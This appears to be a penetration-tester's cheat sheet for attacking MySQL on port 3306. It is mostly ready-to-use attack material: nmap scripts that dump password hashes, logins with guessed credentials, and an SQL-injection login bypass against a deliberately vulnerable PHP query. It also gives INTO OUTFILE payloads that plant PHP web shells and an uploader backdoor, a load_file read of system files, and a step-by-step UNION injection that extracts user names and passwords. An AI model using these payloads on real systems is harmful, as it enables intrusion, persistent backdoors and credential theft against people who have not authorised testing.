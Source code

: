 MySQL Port 3306

##### Enumeration

````
nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 10.11.1.8 
````

##### Connecting

```bash
mysql -u root -p'root' -h 192.168.50.16 -P 3306

www-data@debian:/home/skunk$ mysql -u 'lavita' -p 'sdfquelw0kly9jgbx92'
ERROR 1044 (42000): Access denied for user 'lavita'@'localhost' to database 'sdfquelw0kly9jgbx92'

www-data@debian:/home/skunk$ mysql -u 'lavita' -p 'lavita' #  lavita db
MariaDB [lavita]> 
```

##### Commands

```sql
show databases;
show tables;
use db_name;
select * from passwords;
```

### Login

Try logging in as someone you know is a valid user, and with "%" as the password.

```php
<?php
$uname = $_POST['uname'];
$passwd =$_POST['password'];

$sql_query = "SELECT * FROM users WHERE user_name= '$uname' AND password='$passwd'";
$result = mysqli_query($con, $sql_query);
?>
```

```bash
> admin' or 1=1-- -
```

#### Modifying Exploit

We found the webroot to be /var/www/html/. Note that I changed the query from the url to a header in a request, so at the end of the request, I put view=... I also changed it from a GET to a POST with "Content-Type: application/x-www-form-urlencoded".

From:
```bash
http://website.com/zm/?view=request&request=log&task=query&limit=100;SELECT SLEEP(5)#&minTime=5
```
To:
```bash
http://website.com/zm/?view=request&request=log&task=query&limit=100;SELECT "<?php system($_GET['cmd']);?>" INTO OUTFILE "/var/www/html/webshell.php”

#or for windows
SELECT 
"<?php echo \'<form action=\"\" method=\"post\" enctype=\"multipart/form-data\" name=\"uploader\" id=\"uploader\">\';echo \'<input type=\"file\" name=\"file\" size=\"50\"><input name=\"_upl\" type=\"submit\" id=\"_upl\" value=\"Upload\"></form>\'; if( $_POST[\'_upl\'] == \"Upload\" ) { if(@copy($_FILES[\'file\'][\'tmp_name\'], $_FILES[\'file\'][\'name\'])) { echo \'<b>Upload Done.<b><br><br>\'; }else { echo \'<b>Upload Failed.</b><br><br>\'; }}?>"
INTO OUTFILE 'C:/wamp/www/uploader.php';
```

Upload php command injection.

```bash
union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/wwwroot/backdoor.php'
```

Load file.

```bash
union all select 1,2,3,4,load_file("c:/windows/system32/drivers/etc/hosts"),6
```

Inside URL:

```bash
http://192.168.11.35/comment.php?id=738 order by 1
http://192.168.11.35/comment.php?id=738 union all select 1,2,3,4,5,6
http://192.168.11.35/comment.php?id=738 union all select 1,2,3,4,@@version,6
# To!discover!the!current!user!being!used!for!the!database!connection:
http://192.168.11.35/comment.php?id=738 union all select 1,2,3,4,user(),6
# View the tables
http://192.168.11.35/comment.php?id=738 union all select 1,2,3,4,table_name,6 FROM information_schema.tables
# Look into users table
http://192.168.11.35/comment.php?id=738 union all select 1,2,3,4,column_name,6 FROM information_schema.columns where table_name='users'
# Extract username and password
http://192.168.11.35/comment.php?id=738 union select 1,2,3,4,concat(name,0x3a,password),6 FROM users
```

##### Notes

- If you have a valid password, try using that same password for the admin accounts (root)